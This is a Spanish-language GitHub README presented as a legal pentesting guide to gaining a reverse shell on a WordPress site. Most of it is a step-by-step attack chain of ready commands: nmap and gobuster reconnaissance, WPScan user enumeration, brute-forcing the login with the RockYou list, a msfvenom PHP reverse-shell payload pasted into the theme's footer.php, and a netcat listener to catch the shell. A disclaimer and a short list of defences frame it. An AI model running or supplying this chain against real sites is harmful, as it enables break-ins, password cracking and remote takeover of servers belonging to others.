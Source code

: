 # Guía: Conexión Reversa en WordPress (Pentesting Legal)  

⚠️ ADVERTENCIA
Este repositorio es únicamente para fines educativos y pruebas legales en entornos autorizados.  
No utilices esta información para actividades ilegales. El acceso no autorizado a sistemas es un delito.  

---

## Requisitos  
- Máquina atacante con Kali Linux (o similar).  
- Acceso legal a un entorno WordPress para pruebas.  
- Herramientas instaladas:  
  - gobuster  
  - wpscan  
  - msfvenom  
  - netcat  

---

## Pasos para Establecer una Reverse Shell en WordPress  

### 1. Escaneo de Puertos  
Identificamos si el puerto 80 (HTTP) está abierto:  
```bash
nmap -p 80 <IP-VÍCTIMA> -v
```

### 2. Fuzzing de Directorios con Gobuster  
Buscamos rutas ocultas en el servidor:  
```bash
gobuster dir -u http://<IP-VÍCTIMA>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### 3. Análisis de Subdirectorios  
- Si alguna ruta no carga correctamente, revisamos el código fuente (Ctrl + U) para ver posibles subdominios.  
- Editamos /etc/hosts para resolver el dominio:  
  ```bash
  echo "<IP-VÍCTIMA> subdominio.encontrado.com" | sudo tee -a /etc/hosts
  ```
- Volvemos a ejecutar gobuster con el nuevo subdominio.  

### 4. Encontrar el Panel de WordPress  
Buscamos el directorio wp-admin (panel de login):  
```bash
gobuster dir -u http://<IP-VÍCTIMA>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html
```

### 5. Enumeración de Usuarios con WPScan  
Obtenemos una lista de usuarios posibles:  
```bash
wpscan --url http://<IP-VÍCTIMA>/ --enumerate u, vp
```

### 6. Fuerza Bruta con WPScan (RockYou)  
Intentamos crackear contraseñas:  
```bash
wpscan --url http://<IP-VÍCTIMA>/ --passwords /usr/share/wordlists/rockyou.txt --usernames <USUARIO_ENCONTRADO>
```

### 7. Generación del Payload con Msfvenom  
Creamos un payload en PHP para reverse shell:  
```bash
msfvenom -p php/reverse_php LHOST=<TU_IP> LPORT=<PUERTO> -f raw > payload.php
```
- LHOST: Tu dirección IP.  
- LPORT: Puerto de escucha (ej: 4444).  

### 8. Inyección del Payload en WordPress  
1. Accedemos al panel de WordPress (/wp-admin).  
2. Vamos a Appearance → Themes → Theme Editor → Theme Footer (footer.php).  
3. Borramos todo el contenido y pegamos el código del payload.  
4. Guardamos cambios.  

### 9. Poner en Escucha con Netcat  
Ejecutamos en nuestra máquina:  
```bash
nc -lvnp <PUERTO>
```

### 10. Ejecutar el Payload  
- Recargamos la página principal o cualquier página del sitio.  
- Si todo funciona, obtendrás una shell inversa en tu terminal con netcat.  

---

## Protección Contra Este Ataque  
Si eres administrador de WordPress, sigue estas medidas:  
✅ Usa contraseñas fuertes y autenticación en dos pasos (2FA).  
✅ Actualiza WordPress, plugins y temas.  
✅ Limita el acceso a wp-admin por IP.  
✅ Instala plugins de seguridad como Wordfence o Sucuri.  
✅ Deshabilita la edición de temas desde el panel.  

